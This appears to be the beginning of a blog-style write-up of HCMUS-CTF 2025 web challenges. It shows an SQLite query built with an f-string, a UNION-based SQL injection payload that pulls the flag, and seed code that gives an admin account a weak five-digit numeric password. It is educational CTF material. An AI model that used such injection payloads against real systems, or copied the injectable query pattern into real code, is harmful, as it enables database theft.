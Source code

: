 ```yaml
---
title: HCMUS-CTF(Qualification+Final) 2025 Writeup
published: 2025-08-20
description: 'Writeup for HCMUS-CTF 2025'
image: ''
tags: [web, AI, ctf, writeup]
category: ''
draft: false 
lang: ''
---
```


# HCMUS CTF 2025 Qualification round(36 hours)
This round I solve 3/5 web challenges and 1 AI challenges. The web challenge files is here []()

## web/Asiacs
This is a simple web challenge that require us to do SQL injection,  the vulnerable code is:
```python
def query_by_affiliation(affiliation):
    with sqlite3.connect("database.db") as conn:
        cur = conn.cursor()
        cur.execute(f"""
            SELECT p.title, a.name, pa.affiliation
            FROM paper p
            JOIN paper_author pa ON p.id = pa.paper_id
            JOIN author a ON a.id = pa.author_id
            WHERE pa.affiliation LIKE '%{affiliation}%'
        """)
        return cur.fetchall()
```

Then we can simply use this payload to get the flag: `%' UNION SELECT flag,flag,flag FROM flag -- `

## web/MAL, MALD, BALD(13 solves)
These 3 web challenges have the same source code and there are 3 different flag in the codebases. I manage to solve MAL(24 solves) - the first flag and BALD(13 solves) - the third flag using the same bug.

Here is the intended solution of the author: https://psdat123.github.io/posts/HCMUS-CTF-2025/

After analyzing the source code , the first flag is stored in the private secret of profile with username Dat2Phit

```js
await User.deleteMany({});
let data;
const username = 'Dat2Phit'
try {
    data = await jakanUsers.users(username, 'full');
} catch (error) {
    data = { data: {} };
};
const Dat2Phit = new User({
    username: username,
    role: 'admin'
});
const password = randomstring.generate({
    length: 5,
    charset: 'numeric'
});
User.register(Dat2Phit, password, async function (err, user) {
    if (err) {
```